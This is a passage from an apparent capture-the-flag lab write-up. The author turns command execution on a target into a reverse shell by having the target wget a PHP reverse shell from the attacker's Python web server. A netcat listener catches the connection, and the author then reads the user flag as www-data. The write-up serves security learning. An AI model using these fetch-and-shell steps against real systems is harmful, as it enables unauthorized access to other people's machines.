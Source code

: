 * With the ability to execute commands on the fileserver, I tried to get a reverse shell to work with a few different one-liners. Despite getting clear code execution with Python, none of the payloads worked (not sure why).
 
```python
Enter Command $python3 -c "import time; time.sleep(120)"
```
* Instead, I opted to serve up a simple reverse PHP shell, since I noticed earlier that the webserver runs off PHP, as revealed by the **index.php** file.

* After setting up [this reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), I spun up a webserver on port 80 with Python to transfer the file over to the remote server.

```shell
└─$ sudo python3 -m http.server 80                                             1 ⨯
[sudo] password for ryan: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.230.52 - - [05/Sep/2022 08:35:39] "GET /reverse.php HTTP/1.1" 200 -
10.10.230.52 - - [05/Sep/2022 08:35:39] "GET /reverse.php HTTP/1.1" 200 -
```

* Using wget on the remote machine, I retrieved the file into the root directory of the webserver.

```shell
Enter Command $wget http://10.6.91.228/reverse.php
```
* Now, by visiting the webserver at `/reverse.php` and using netcat to accept all inbound connections, I was able to establish a reverse shell.

```shell
└─$ nc -lnvp 1234                                                                               1 ⨯
listening on [any] 1234 ...
connect to [10.6.91.228] from (UNKNOWN) [10.10.230.52] 37050
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 08:40:59 up 21 min,  0 users,  load average: 1.07, 1.04, 0.75
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

* The first user flag is revealed in the home directory:

```shell
$ cd /home
$ ls 
www-data
$ cd www-data
$ ls
flag.txt
$ cat flag.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
$ 
```
